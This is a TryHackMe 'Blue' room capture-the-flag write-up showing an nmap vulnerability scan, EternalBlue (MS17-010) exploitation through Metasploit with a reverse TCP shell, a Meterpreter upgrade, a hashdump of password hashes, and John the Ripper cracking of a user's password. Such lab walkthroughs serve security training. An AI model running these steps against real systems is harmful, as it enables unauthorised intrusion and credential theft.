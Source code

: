 TryHackMe - Blue | Writeup
Room:Blue
Difficulty: Easy
Writeup by: Sourav Mondal

Recon
namp scan...
nmap -sV --script vuln -T4 -oN nmap-vuln.txt 10.10.73.255
Nmap scan report for 10.10.73.255
Host is up (0.28s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 16 16:00:14 2025 -- 1 IP address (1 host up)
find vunlerability
A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).

Gain Access

start metasploit
search ms17-010
msfconsole

[msf](Jobs:0 Agents:0) >> search ms17-010

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
msf](Jobs:0 Agents:0) >> use 0

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set rhosts 10.10.73.255
rhosts => 10.10.73.255
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set lhost tun0

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> run
[*] Started reverse TCP handler on 10.17.55.203:4444 
[*] 10.10.73.255:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.73.255:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.10.73.255:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.73.255:445 - The target is vulnerable.
[*] 10.10.73.255:445 - Connecting to target for exploitation.
[+] 10.10.73.255:445 - Connection established for exploitation.
[+] 10.10.73.255:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.73.255:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.73.255:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Pr
+] 10.10.73.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.73.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.73.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


C:\Windows\system32>

successfully exploited the vulnerability
Escalate privileges, learn how to upgrade shells in metasploit.
If you haven't already, background the previously gained shell (CTRL + Z). 
search shell to meterpeter

Background session 1? [y/N]  y


[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> search shell to meterpreter
  108    \_ target: Mac OS X                                                      .                .          .      .
   109  post/multi/manage/shell_to_meterpreter                                     .                normal     No     Shell to Meterpreter Upgrade
   110  exploit/multi/http/sonicwall_gms_upload                                    2012-01-17       excellent  Yes    SonicWALL GMS 6 Arbitrary File Upload
   111    \_ target: SonicWALL GMS 6.0 Viewpoint / Java Universal                  .           
[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> use 109
msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> show sessions

Active sessions
===============

  Id  Name  Type               Information  Connection
  --  ----  ----               -----------  ----------
  1         shell x64/windows               10.17.55.203:4444 -> 10.10.73.255:49175 (10.10.73.255)

  [msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> set session 1
session => 1
[msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.17.55.203:4433 
[*] Post module execution completed
[msf](Jobs:1 Agents:1) post(multi/manage/shell_to_meterpreter) >> 
[*] Sending stage (203846 bytes) to 10.10.73.255
[*] Meterpreter session 2 opened (10.17.55.203:4433 -> 10.10.73.255:49182) at 2025-07-16 16:23:43 +0530
[*] Stopping exploit/multi/handler

Meterpreter 1)(C:\Windows\system32) 
meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so.
Meterpreter 1)(C:\Windows\system32) > hashdump

save the non-default user hash a file i save hash.txt file.

Cracking

i use john the ripper tool crack the lm hash.
sudo john hash.txt --wordlist=/usr/share/SecList/Passwords/Leaked-Databases/rockyou.txt -format=NT
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)     
1g 0:00:00:02 DONE (2025-07-16 16:58) 0.3802g/s 3878Kp/s 3878Kc/s 3878KC/s alqueva1968..alpus
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed

